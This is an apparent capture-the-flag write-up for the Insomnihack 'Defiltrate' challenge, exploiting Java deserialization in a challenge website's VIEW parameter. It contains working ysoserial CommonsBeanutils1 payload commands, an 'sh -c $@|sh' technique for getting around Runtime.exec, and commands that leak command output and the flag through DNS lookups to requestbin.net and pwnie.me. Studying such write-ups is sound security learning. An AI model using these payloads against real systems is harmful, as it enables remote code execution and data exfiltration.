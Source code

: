 # Defiltrate – Part1

## Description

Our company has been victim of a Ransomeware that damaged our "Secure share" website. Access to "Secure share" has been partially restored and traces of the malware have been deposited on it.

Can you help us retrieve our files?

http://defiltrate.insomnihack.ch/

## Task

Main POST request with vulnerability:

```
POST / HTTP/1.1
Host: defiltrate.insomnihack.ch
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 242
Origin: https://defiltrate.insomnihack.ch
Connection: close
Referer: https://defiltrate.insomnihack.ch/
Cookie: PINKYID=3d736b46da3149f488c76295c7dece42
Upgrade-Insecure-Requests: 1

VIEW=rO0ABXNyAApXZWJTZXNzaW9uAAAAAAAAAAECAARMAAxtX2I2NFBheWxvYWR0ABJMamF2YS9sYW5nL1N0cmluZztMAAdtX2xvZ2lucQB%2bAAFMAAptX3Bhc3N3b3JkcQB%2bAAFMAAttX3Nlc3Npb25JRHEAfgABeHB0AARqYWNrdAAFYWRtaW50ABVJIGxvdmUgcGluayBwb25pZXMgPDN0AAI0Mg%3d%3d&get=&rm=
```


Here we can see that the VIEW parameter has a base64 encoded value starting with rO0AB which is the beginning of base64 encoded java serialized object:

First, we tried to view what the object holds, so we used a tool called [SerializationDumper](https://github.com/NickstaDB/SerializationDumper).

We got an object containing 4 properties, the first part of the deserialization output contains some information about the object and its properties (type,name,length,..etc), scrolling down the output we can see the values of the properties:

```
values
    m_b64Payload
    (object)
        TC_STRING - 0x74
        newHandle 0x00 7e 00 03
        Length - 0 - 0x00 00
        Value -  - 0x
    m_login
    (object)
        TC_STRING - 0x74
        newHandle 0x00 7e 00 04
        Length - 5 - 0x00 05
        Value - admin - 0x61646d696e
    m_password
    (object)
        TC_STRING - 0x74
        newHandle 0x00 7e 00 05
        Length - 21 - 0x00 15
        Value - I love pink ponies <3 - 0x49206c6f76652070696e6b20706f6e696573203c33
    m_sessionID
    (object)
        TC_STRING - 0x74
        newHandle 0x00 7e 00 06
        Length - 2 - 0x00 02
        Value - 42 - 0x3432
```

Trying the unsafe deserialization with ysoserial payload `CommonsBeanutils1` give the successful result.

```
java -jar ysoserial.jar CommonsBeanutils1 'curl empty.jack.su' | base64 -w0
```

### The solution 1

Source: https://r3billions.com/writeup-defiltrate-part1/

We got a DNS request to our bin, but in fact there was a firewall in place so we couldn't establish an OOB communication in a way other than DNS.

We started trying to execute commands using command substitution as subdomains to our DNS bin like $(whoami) or using back ticks but for some reason they were escaped (Cause Runtime.exec from CommonsBeanurils1 payload do tokenization of command and execute exec with arguments.) and sent as is without execution, we tried to use nslookup ourdns.com|bash sending a request to our DNS server with a customized response but the piping in this case didn't work too.

After some trial and error we could leak data using these 2 commands in separate payloads

```
python -c open('/tmp/exfilterate','w').write(__import__('os').popen('ls').read().replace('\n','-')[:62]+'.6ec8bf6181774bda185e.d.requestbin.net')
```

and

```
dig -f /tmp/exfilterate
```

Note: spaces were not allowed in the python payload for some reason so we replaced it with chr(32)

The first payload runs a python code that executes bash commands and appending the result to a DNS bin domain then writes it to a file. The second one executes a dig on the content of the file.

Executing the following command `grep -rnw '/' -e INS`

```
python -c open('/tmp/exfilterate','w').write(__import__('os').popen('grep'+chr(32)+'-rnw'+chr(32)+'/'+chr(32)+'-e'+chr(32)+'INS').read().replace('\n','-')+'.7d62a86d9d50bc553648.d.requestbin.net')
```

Resulted in a DNS request with the flag:


### The solution 2

Helpful links: 
- https://codewhitesec.blogspot.com/2015/03/sh-or-getting-shell-environment-from.html?m=1
- https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html#Special-Parameters

If you happen to have command execution via Java's `Runtime.exec` on a Unix system, you may already have noticed that it doesn't behave like a normal shell. Although simple commands like `ls -al`, `uname -a`, or `netstat -ant` work fine, more complex commands and especially commands with indispensable features like pipes, redirections, quoting, or expansions do not work at all.

Well, the reason for that is that the command passed to `Runtime.exec` is not executed by a shell. Instead, if you dig down though the Java source code, you'll end up in the UNIXProcess class, which reveals that calling `Runtime.exec` results in a `fork` and `exec` call on Unix platforms.

So if we want execute bash command using `sh -c` we have to know the following:

That is correct, but here is the catch: Since only the first argument following `-c` is interpreted as shell command, the whole shell command must be passed as a single argument. And if you take a closer look at how the string passed to `Runtime.exec` is processed, you'll see that Java uses a `StringTokenizer` that **splits the command at any white-space character**.

So, what is the other option that we have?

The key is in the `sh -c command`, but we won't execute the command directly but build a command that itself spawns another shell that then executes our command. Though it sounds complicated, we'll derive it step by step.

The secret key to this is the [special parameter](http://www.gnu.org/software/bash/manual/bashref.html#Special-Parameters) `@`, which expands to the positional parameters when referenced with `$@`, starting from parameter one: `sh -c $@`

But how do we pass the actual command? Well, if the [shell is invoked
with `-c`](http://www.gnu.org/software/bash/manual/bashref.html#Invoking-Bash), any remaining arguments after the command argument are assigned to the positional parameters, starting with `$0`. So when `$@` is expanded by the shell with the following invocation:

    $ java Exec 'sh -c $@ 0 1 2 3 4 5'

It results in `1 2 3 4 5`. The 0-th parameter does not appear in the expansion result as it, by convention, should be the file name associated with the file being executed. We can see the result by adding a `echo` in place of the `$1` parameter:

    $ java Exec 'sh -c $@ 0 echo 1 2 3 4 5'

Here the shell first expands `$@` to `echo 1 2 3 4 5` and then executes it.

But this is still not better than the simple `sh -c command`, as we still have no support of pipes, redirections, quoting or expansion.

The reason for this is that the `$@` expansion does not result in a restart of the command interpretation.

The solution to a fully functional shell is `sh`\'s ability to allow the commands to be passed via standard input. So, if we use another `echo` to echo our command and pipe it to `sh`, we\'ll get our *command* executed by `sh` entirely:

    $ java Exec 'sh -c $@|sh . echo command'

Now we have all shell features available!

And we could create one line command to find flag in OS:

```
java -jar ysoserial.jar CommonsBeanutils1 'sh -c $@|sh . echo echo 0 > /tmp/exf; for cont in $(grep -r INS /opt/* 2>/dev/null); do echo $cont.69c0cdc3.pwnie.me >> /tmp/exf; done; dig -f /tmp/exf' | base64
```
